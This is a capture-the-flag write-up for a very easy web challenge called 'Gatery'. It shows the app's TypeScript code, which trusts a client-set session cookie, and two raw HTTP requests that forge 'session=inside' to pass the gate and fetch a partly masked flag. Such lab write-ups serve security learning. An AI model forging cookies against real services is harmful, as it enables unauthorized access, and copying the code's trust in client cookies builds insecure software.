



# Gatery
|Category|Difficulty|
|:------:|:--------:|
|  Web   | Very Easy|

**Skills learned:**
* HTTP request manipulation via Burp Suite

## Description
Lysa Harrowmere reaches Crownspire with proof that a trusted castle informant is selling patrol routes to the enemy. The information is being used to ambush messengers, delay supplies, and keep Stormbound’s allies divided. The only person who can act on the proof is inside the castle for a closed council, but Lysa’s name has been removed from the entry list and the guards have orders to admit no unscheduled visitors. If she waits, the council ends and the traitor disappears with the next route packet. If she speaks openly at the gate, the proof is seized before it reaches the right hands. Lysa must trick the guarded passage, get inside, and place the evidence with the one ally who can expose the leak before the enemy moves again.

**File attachment(s):**
```text
a24d9528-cbb8-487b-9354-e05b07e2794a-1784541075.zip
└── challenge
    ├── app
    │   └── (application code files)
    ├── config
    │   └── (config files)
    ├── .gitignore
    ├── docker-compose.yml
    ├── Dockerfile
    └── flag.txt
```

Spawning the challenge's Docker container brings us to this page:


## Searching Code Files for Clues
I began this challenge by looking through the web app's code files searching for possible clues on where to find the flag.

Inside the file **/challenge/app/index.ts** we find some clues:
```ts
 .post('/api/gate/open', ({ cookie: { session }, set }) => {
    if (session.value !== 'admin' && session.value !== 'inside') {
      set.status = 403
      return { ok: false, gateOpen: false }
    }

    return { ok: true, gateOpen: true, insideGate: false }
  })
  .post('/api/gate/enter', ({ cookie: { session }, set }) => {
    if (!session.value) {
      set.status = 401
      return { ok: false, message: 'Login required' }
    }

    if (session.value !== 'admin' && session.value !== 'inside') {
      set.status = 403
      return { ok: false, message: 'Gate authority required' }
    }

    setSessionCookie(session, 'inside')

    return { ok: true, insideGate: true }
  })
  .post('/api/flag', ({ cookie: { session }, set }) => {
    if (!session.value) {
      set.status = 401
      return { ok: false, message: 'Login required' }
    }

    if (session.value !== 'inside') {
      set.status = 403
      return { ok: false, message: 'Enter the castle first' }
    }

    return { ok: true, flag }
```

**Clue #1:**
We see that the API endpoint `/gate/open` is expecting a cookie named session. If the value of this cookie is **either *admin* or *inside***, the gate will be opened.

**Clue #2:**
The API endpoint `/gate/enter` is expecting the same cookie as `/gate/open`. If the cookie's value is **either *admin* or *inside***, the app sets the sessionCookie value to **inside**, and we will be allowed inside the gate.

**Clue #3:**
The API endpoint `/flag` is expecting the same cookie as both /gate/open and /gate/enter. If the sessionCookie value is **inside**, then we will get the contents of the flag.

## Using Burp to Get the Flag
I began by using **Burp proxy** to intercept a request sent to the application. I then sent the intercepted request to Burp's **repeater** to send manipulated requests to the app.

Sending a manipulated POST request to the endpoint `/api/gate/enter` containing a cookie named **session** with a value of **inside**:
```
POST /api/gate/enter HTTP/1.1
Host: 154.57.164.68:30213
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://154.57.164.68:30213/
content-type: application/json
Connection: keep-alive
Cookie: session=inside
Priority: u=4
Content-Length: 49

{"username":"user","password":"password"
}
```

After sending this request, the server's response sets a new value to the **session** cookie, as well as saying we're now inside the gate.



Now that I'm inside the gate, I change my request to include the new **session cookie value** and point it towards `/api/flag`:
```
POST /api/flag HTTP/1.1
Host: 154.57.164.68:30213
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://154.57.164.68:30213/
content-type: application/json
Connection: keep-alive
Cookie: session=inside.x7gnC4RKHVz5FMXO1S%2F9SNWj8h0ocf2H2PwjmQZCg94
Priority: u=4
Content-Length: 49

{"username":"user","password":"password"
}
```

And we get the flag in the server's response:


## Flag
**Flag: HTB{w3lc0me_b3y0nd_\*\*\*_\*\*\*\*_\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}**